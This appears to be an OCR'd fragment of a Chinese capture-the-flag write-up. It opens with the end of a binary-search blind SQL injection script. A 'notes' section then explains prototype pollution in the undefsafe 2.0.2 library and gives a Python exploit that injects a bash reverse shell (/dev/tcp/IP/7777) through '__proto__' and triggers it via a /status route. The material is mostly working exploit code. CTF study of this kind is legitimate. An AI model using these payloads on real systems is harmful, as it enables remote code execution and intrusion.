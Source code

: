 ```python
            }
            print(mid)
            if check(data) == True:
                result += chr(mid)
                print(result)
                break
            else:
                # s = payload % (i, '>', mid)
                data = {
                    "username": param % (payload, i, '>', mid),
                    'password': '123',
                }
                if check(data):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    return result

if __name__ == "__main__":
    res = binSearch(payload)
    print(res)
```

### notes

莫名其妙引入undefsafe库看起来就不对劲，该库最新版本是2.0.3，2.0.2存在原型链污染。POC：`undefsafe({}, '__proto__.XX', 'XXX')`

`/status`路由中会遍历commands对象的所有属性并交给bash执行，所以只需原型链污染新增属性，再访问`/status`即可RCE

定位到`Notes.edit_note`中

```javascript
this.note_list = {};
undefsafe(this.note_list, id + '.author', author);
```

控制`id=__proto__`，`author=cmd`即可

```python
import requests

url = 'http://9711c6c8714c462895e6353c89625c599089f9ae09ec4d6e.cloudgame2.ichunqiu.com:8080'

requests.post(url + '/edit_note', data={
        'id': '__proto__',
        'author': '/bin/bash -i >&/dev/tcp/IP/7777 0>&1',
        'raw': '123',
    })
requests.get(url + '/status')

```